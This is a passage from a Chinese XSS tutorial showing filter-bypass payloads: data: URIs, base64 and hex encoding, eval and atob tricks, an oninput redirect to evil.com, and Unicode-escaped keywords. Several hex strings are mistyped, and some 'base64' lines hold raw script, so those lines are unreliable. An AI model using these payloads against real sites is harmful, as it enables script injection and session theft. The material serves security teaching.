 ```html
<object data="data:text/html;base64,<script>alert("Hello");</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">

<META HTTP-EQUIV="refresh"CONTENT="O;url=data:text/html;base64,<script>alert("Hello");</script>">
<META HTTP-EQUIV="refresh"CONTENT="O;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">
```

### 8.base64,16进制,10进制,编码再使用eval().window\[atob()\]函数执行

如: alert('XSS');  
经过JS 16进制编码后:  
`x61\x6clx65\x72\x74\x28\x27\x58x53\x53x27x29\x3b\xa`

```html
<script>eval("\x61\x6c\x65\x72\x74\x28\x27\x58\x53\x53\x27\x29\x3b")</script>
```

Window\[atob('eval')\]:

```html
<script>window[atob('ZXZhbA==')]("\x61\x6cx65\x72\x74\x28\x27\x58\x53\x53\x27x29\x3b");</script>
```

9.参数间接传值
--------

思路:输入的语句并不会直接执行带有恶意的XSS payload语句，而是通过传递恶意语句到某些参数从而达到间接执行的目的。  
例1: <http://www.evil.com> 这个网站是一个恶意页面。<http://10.10.10.135/xss/test.php> 这是一个普通的测试页面。

```html
http://10.10.10.135/xss/test.php?name=test<input name="http://www.evil.com"value="xsstest" oninput="window.location=this.name">
http://www.evil.com可以直接替换成恶意语句如: javascript:alert(1)。
```

例2(IE&lt;=8版本)

```html
http://10.10.10.135/xss/test.php?name=test<a href="123”
id="x">test</a><script>x='javascript:alert(1)'</script><script>x.toString()=='123'</script>
```

XSS在实际应用中web程序往往会通过一些过滤规则来组织代有恶意代码的用户输入被显示。

### 10.编码脚本代码绕过关键字过滤

有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。

例如alert(1)编码过后就是

```html
\u0061\u006c\u0065\u0072\u0074(1)
```

所以构建出来的攻击语句如下：

```html
http://192.168.1.102/xss/example5.php?name=<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```
